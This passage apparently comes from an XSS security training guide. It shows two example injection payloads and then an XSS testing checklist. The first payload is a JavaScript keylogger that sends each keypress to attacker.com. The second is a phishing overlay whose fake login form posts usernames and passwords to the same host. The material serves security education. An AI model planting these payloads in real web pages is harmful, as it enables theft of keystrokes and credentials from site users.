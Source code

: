 3. **Keylogger**:
   ```html
   <script>
   document.addEventListener('keypress', function(e) {
     new Image().src='http://attacker.com/keylog.php?key='+e.key;
   });
   </script>
   ```

4. **Phishing**:
   ```html
   <script>
   document.body.innerHTML = `
   <div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999;">
     <h2>Session Expired - Please Login</h2>
     <form action="http://attacker.com/phish.php" method="post">
       <input name="username" placeholder="Username">
       <input type="password" name="password" placeholder="Password">
       <button type="submit">Login</button>
     </form>
   </div>`;
   </script>
   ```

---

## 🎓 Exercise 9: Security Testing Methodology

### Objective
Develop systematic approach untuk XSS testing.

### Testing Checklist
1. **Input Discovery**:
   - [ ] Form fields
   - [ ] URL parameters
   - [ ] HTTP headers
   - [ ] File uploads
   - [ ] WebSocket messages

2. **Context Analysis**:
   - [ ] HTML body context
   - [ ] HTML attribute context  
   - [ ] JavaScript context
   - [ ] CSS context
   - [ ] URL context

3. **Payload Testing**:
   - [ ] Basic payloads
   - [ ] Context-specific payloads
   - [ ] Encoding variations
   - [ ] Bypass techniques

4. **Impact Assessment**:
   - [ ] Data theft potential
   - [ ] Account takeover risk
   - [ ] Defacement possibility
   - [ ] Malware distribution risk
